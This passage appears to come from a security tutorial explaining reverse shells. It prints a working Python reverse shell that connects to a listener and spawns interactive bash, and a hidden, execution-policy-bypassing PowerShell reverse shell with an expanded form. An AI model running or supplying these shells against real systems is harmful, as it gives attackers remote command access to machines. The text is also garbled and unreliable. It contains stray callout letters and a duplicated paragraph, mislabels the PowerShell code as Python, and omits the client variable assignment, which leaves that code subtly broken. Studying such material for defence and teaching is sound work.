 Expanded, the code looks like this:

```python
import socket,subprocess, os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.0.0.1",6001))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/bash","-i"])
```

The code essentially replicates the process of making the bash socket connection you saw earlier. It creates a socket u and connects to the listener v. It redirects the stdin, stdout and stderror to the socket w and then makes then runs the bash command x. It then gets all of the standard streams using the socket and finally starts an interactive shell.

The code essentially replicates the process you saw above with the bash socket connection. It creates a socket and connects to the listener. It then gets all of the standard streams using the socket and finally starts an interactive shell.

## Reverse shells on Windows

The principles of reverse shells work with Windows as well but you don’t have the ease of having bash readily available. There are Windows' versions of Netcat and so it is possible to do a reverse shell by simply specifying cmd.exe or powershell.exe as the command to execute when using it. It is also possible, as in the Python example above, to run a reverse shell written in PowerShell as follows:

```bash
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.0.0.1",6001);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

When the code passed to powershell.exe's command argument \(-Command\) is expanded, it looks like this:

```python
New-Object System.Net.Sockets.TCPClient("10.0.0.1",6001)
$stream = $client.GetStream()
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
  $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i)
  $sendback = (iex $data 2>&1 | Out-String )
  $sendback2  = $sendback + "PS " + (pwd).Path + "> "
  $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
  $stream.Write($sendbyte,0,$sendbyte.Length);
  $stream.Flush()
}
$client.Close()
```
